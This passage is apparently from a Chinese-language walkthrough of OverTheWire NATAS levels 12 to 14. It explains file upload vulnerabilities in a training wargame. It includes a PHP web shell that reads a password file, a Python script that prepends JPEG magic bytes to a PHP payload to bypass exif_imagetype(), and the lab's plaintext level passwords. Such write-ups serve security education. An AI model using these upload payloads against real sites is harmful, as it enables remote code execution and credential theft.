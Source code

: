     function makeRandomPathFromFilename($dir, $fn) {    // 獲取隱藏輸入框之內容並取得副檔名後，呼叫製作隨機檔名
        $ext = pathinfo($fn, PATHINFO_EXTENSION);
        return makeRandomPath($dir, $ext);
    }
    
    if(array_key_exists("filename", $_POST)) {
        $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);    // 設定 target_path 變數為呼叫 makeRandomPathFromFilename 函式並帶入兩個值回傳之值，帶入之兩參數分別為 "upload" 字串與一個隱藏在前端網頁中的輸入框內容。
    
    
            if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {    // 判斷檔案是否超過 1 KB。
            echo "File is too big";    // 檔案若超過 1 KB 則回傳「File is too big」。
        } else {    // 若檔案小於 1 KB，則上傳並回傳檔案上傳路徑。
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {    // 上傳檔案至 target_path 變數之路徑
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";    // 回傳檔案上傳之位置
            } else{
                echo "There was an error uploading the file, please try again!";    // 若上傳錯誤則回傳「There was an error uploading the file, please try again!」
            }
        }
    } else {
    ?>
    ```
2. 由上述程式碼猜測為檔案上傳漏洞。
3. 於是先製作一個 PHP 檔，其內容如下，以進行 RCE 獲取密碼。
    ```php
    <?php
        echo system("cat /etc/natas_webpass/natas13");
    ?>
    ```
4. 為使其儲存成 PHP 檔，隱藏透過點擊鍵盤 F12 打開開發者工具，並將一個名為 `filename` 隱藏輸入框的值副檔名修改成 `.php`。
5. 接著上傳第三步製作的 PHP 檔後，網站回傳檔案上傳之路徑，將其打開後就看到 NATAS 13 的密碼了。

## [NATAS 13](http://natas13.natas.labs.overthewire.org)
> - Link: http://natas13.natas.labs.overthewire.org
> - Username: natas13
> - Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

1. 觀察此題提供之原始碼發現其透過 `exif_imagetype()` 函式判斷是否為圖像檔，避免遭到檔案上傳漏洞的攻擊。
2. 然而攻擊者仍可透過一些方式繞過這個函式，此函式判斷是否為圖像的依據為查看檔案的標頭。以 jpeg 為例，其標頭為：`0xFF 0xD8 0xFF 0xE0`。
3. 故撰寫一個 Python 程式製作一個可繞過 `exif_imagetype()` 函式並進行攻擊的 jpeg 檔，範例程式如下：
    ```python
    shell=open('natas13.jpeg','wb')
    shell.write(b'\xFF\xD8\xFF\xE0'+b"<?php passthru('cat /etc/natas_webpass/natas14');")
    shell.close()
    ```
4. 接著就是類似 NATAS 12 的作法：將隱藏的文字方塊修改並上傳後打開回傳的路徑就得到 NATAS 14 的密碼了。

## [NATAS 14](http://natas14.natas.labs.overthewire.org)
> - Link: http://natas14.natas.labs.overthewire.org
> - Username: natas14
> - Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
